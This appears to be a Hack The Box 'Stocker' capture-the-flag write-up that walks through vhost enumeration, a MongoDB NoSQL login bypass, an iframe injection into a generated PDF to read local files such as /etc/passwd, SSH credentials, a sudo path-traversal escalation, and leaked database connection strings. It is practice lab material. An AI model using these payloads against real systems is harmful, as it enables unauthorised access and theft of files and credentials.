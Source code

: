 `gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u stocker.htb -t 50 --append-domain`
Found: dev.stocker.htb Status: 302 [Size: 28] [--> /login]

`10.10.11.196    stocker.htb dev.stocker.htb`

Login injection for mongodb:

```
POST /login HTTP/1.1
Host: dev.stocker.htb
Content-Length: 55
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://dev.stocker.htb
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://dev.stocker.htb/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: connect.sid=s%3A7POPFL-NoqJd_8maxKOJblarsZoqIJXx.xPpxIgFf5VpP9ZRsAiJEkpui1qYM24TahmfC2kfoF%2F0
Connection: close

{"username": {"$ne": null}, "password": {"$ne": null} }
```

Order injection to print **iframe** inside pdf file. There are 3 important files for this box: 

/etc/passwd
/var/www/dev/index.js
/etc/nginx/sites-enabled/default

```
POST /api/order HTTP/1.1
Host: dev.stocker.htb
Content-Length: 241
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://dev.stocker.htb
Referer: http://dev.stocker.htb/stock
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: connect.sid=s%3Aam-M3BRZVIUO-AOVxOaUNRrOccQDxr0P.xrWmJyNTG4%2BagkwkLiB8j6VG9b%2FRa31%2B1oUG5aCTPCc
Connection: close

{"basket":[{"_id":"638f116eeb060210cbd83a8d","title":"Cup<iframe src='file:///var/www/dev/index.js' width='1000' height='1000'></iframe>","description":"It's a red cup.","image":"red-cup.jpg","price":32,"currentStock":4,"__v":0,"amount":1}]}
```

Ssh:
angoose
IHeardPassphrasesArePrettySecure

sudo -l

https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-path-traversal-privilege-escalation/

const prodURI = "mongodb://prod:tsydddRJ7xo4F#4Xg?e3HzA@localhost/prod?authSource=admin&w=1";
const devURI = "mongodb://dev:IHeardPassphrasesArePrettySecure@localhost/dev?authSource=admin&w=1";